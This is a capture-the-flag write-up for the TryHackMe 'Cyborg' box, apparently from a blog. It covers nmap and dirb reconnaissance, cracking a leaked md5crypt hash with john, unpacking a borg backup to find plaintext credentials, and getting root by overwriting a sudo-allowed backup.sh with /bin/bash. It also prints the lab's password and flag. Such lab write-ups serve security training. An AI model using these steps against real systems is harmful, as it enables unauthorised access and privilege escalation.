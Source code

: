 ```yaml
---
published: true
layout: post
title: THM-Writeups_Cyborg
---
```

### A box involving encrypted archives, source code analysis and more. 

---

#### Let's use nmap to check the machine's ports.

```
─[✗]─[aj-tap@parrot]─[~]
└──╼ $sudo nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan 10.10.125.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 21:06 +08
Nmap scan report for 10.10.125.131
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=39276%PV=Y%DS=4%DC=I%G=Y%TM=6367B20
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.88 seconds
```
#### There are two open ports. SSH is listening on Port 22, while HTTP is listening on Port 80. We can verify this by grabbing the banner with netcat on port 22 and running whatweb on port 80.

```
┌─[✗]─[aj-tap@parrot]─[~]
└──╼ $nc 10.10.125.131 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```

```
┌─[aj-tap@parrot]─[~]
└──╼ $whatweb 10.10.125.131 
http://10.10.125.131 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.125.131], Title[Apache2 Ubuntu Default Page: It works]
```

---

#### Let's look into the web application. We discovered that the root url contains a default Apache web page. Further investigation revealed a file in /etc/squid/squid.conf and etc/squid/passwd. It appears to be a squid proxy server that has been incorrectly configured.

### /etc/squid/squid.conf Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-1.png)

### /etc/squid/passwd Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-2.png)

#### Let's use the dirb tool to discover the site's hidden directories.
```
┌─[✗]─[aj-tap@parrot]─[~/Desktop]
└──╼ $dirb http://10.10.125.131/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov  6 21:27:34 2022
URL_BASE: http://10.10.125.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.125.131/ ----
	==> DIRECTORY: http://10.10.125.131/admin/    
```
### /admin Page
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-3.png)
![]({{site.baseurl}}/images/Writeups/writeups-cyborg-4.png)

We just discovered the admin page. Based on the conversation, Alex set up a squid proxy, but due to a lack of knowledge of the technology, this results in a misconfiguration, which leads to an information disclosure. We found out before that the password hash is located on /squid/passwd. The admin page also includes an archive.tar file. 

![]({{site.baseurl}}/images/Writeups/writeups-cyborg-5.png)

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cat README 
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```
#### Based on the README file, these are encrypted backup files used by the borg tool, which is a deduplicating backup program. We can simply install borgback using apt package manager.
```
[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $sudo apt install borgbackup
```
#### https://borgbackup.readthedocs.io/en/stable/installation.html#distribution-package
```
─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg list .
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
#### Using borgbackup list flag, it gaves us contents of the repository which is a encrypted music_archive. We already obtain the hash password of music_archive before. Let's crack it using john. 

```
─[aj-tap@parrot]─[~/Desktop]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hashpass.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2022-11-06 21:33) 2.380g/s 93257p/s 93257c/s 93257C/s 091983..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### We recover the password from the hash. Let's supply this to borgbackup, then unpack the music archive and examine its contents.

```
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $mkdir unpacked_backup
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $borg mount . unpacked_backup/
Enter passphrase for key /home/user/Desktop/cyborg/home/field/dev/final_archive: 
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive]
└──╼ $cd unpacked_backup/
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $tree 
.
└── music_archive
    └── home
        └── alex
            ├── Desktop
            │   └── secret.txt
            ├── Documents
            │   └── note.txt
            ├── Downloads
            ├── Music
            ├── Pictures
            ├── Public
            ├── Templates
            └── Videos

11 directories, 2 files
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
┌─[aj-tap@parrot]─[~/Desktop/cyborg/home/field/dev/final_archive/unpacked_backup]
└──╼ $cat music_archive/home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

#### We simply obtained Alex's password from the note.txt file. Let's use this credential to log in to the machine's ssh.
```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
#### We found out that we can sudo backup.sh. Using this file, we can elavate our user account to root account. First, change the file permissions to read and write, and then add a script that invokes the bash program.
```
alex@ubuntu:~$ chmod 777 /etc/mp3backups/backup.sh 
alex@ubuntu:~$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 
root@ubuntu:~# cat /root/root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```



